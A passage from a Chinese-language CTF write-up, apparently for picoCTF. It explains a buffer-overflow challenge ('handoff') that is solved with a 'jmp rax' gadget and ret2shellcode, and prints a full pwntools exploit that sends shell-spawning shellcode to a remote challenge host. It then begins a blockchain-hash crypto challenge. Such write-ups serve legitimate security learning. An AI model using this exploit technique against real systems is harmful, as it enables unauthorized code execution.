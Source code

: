 `NX` 是關的加上有 `bof` 的漏洞初看感覺是 `ret2shellcode` 
```c
#define NAME_LEN 32
...
	char feedback[8];
	...
	fgets(feedback, NAME_LEN, stdin);
```

不過由於 stack 的 address 會在每一次程序執行的時候有範圍的隨機分配所以不能直接把 return address 改成放shellcode 的位置。去翻 gadget 看到了有 `jmp rax` 這個神奇的 gadget
```bash
 ROPgadget --binary handoff
Gadgets information
============================================================
...
0x000000000040116c : jmp rax
...
```

加上在執行的時候 `rax` 會指到我們可以輸入的位置，不過同時因為有輸入長度限制及尾端需要放著段 address所以我們不能直接在 `feedback` 裡面塞 `shellcode` 。不過 feedback 和 我們放 shellcode 的 address offset 是固定的，所以我們可以在 `jmp rax` 後減掉那個 offset ，最後再次 `jmp rax` 到我們放 `shellcode` 的 address 來完成 `ret2shellcode`。完整exploit
```python
from pwn import *

context.arch = 'amd64'

sh = asm(shellcraft.sh())
jmp_rax = p64(0x000000000040116c)
jump_to_sh = asm('''sub rax, 0x2d4
             jmp rax''', arch="amd64")

payload = b'\x90\x90' + jump_to_sh + b'a' * 10 + jmp_rax

# p = process('./handoff')
p = remote("shape-facility.picoctf.net", 59718)

p.sendlineafter(b"3. Exit the app", b"1")
p.sendlineafter(b"name:", b"\x90"*8)

p.sendlineafter(b"3. Exit the app", b"2")
p.sendlineafter(b"to?", b"0")
p.sendlineafter(b"them?", sh)
  
p.sendlineafter(b"3. Exit the app", b"3")
p.sendlineafter(b"it:", payload)

p.interactive()
```

## Tap into Hash
給了一個python 還有一個有密文和 key 的txt。`block_chain.py` 主要在做的事是建立一個由五個區塊串起來的區塊鏈
```python
   genesis_block = Block(0, "0", int(time.time()), "EncodedGenesisBlock", 0)
   blockchain = [genesis_block]

   for i in range(1, 5):
      encoded_transactions = base64.b64encode(
         f"Transaction_{i}".encode()).decode('utf-8')
      new_block = proof_of_work(blockchain[-1], encoded_transactions)
      blockchain.append(new_block)

   all_blocks = get_all_blocks(blockchain)
```
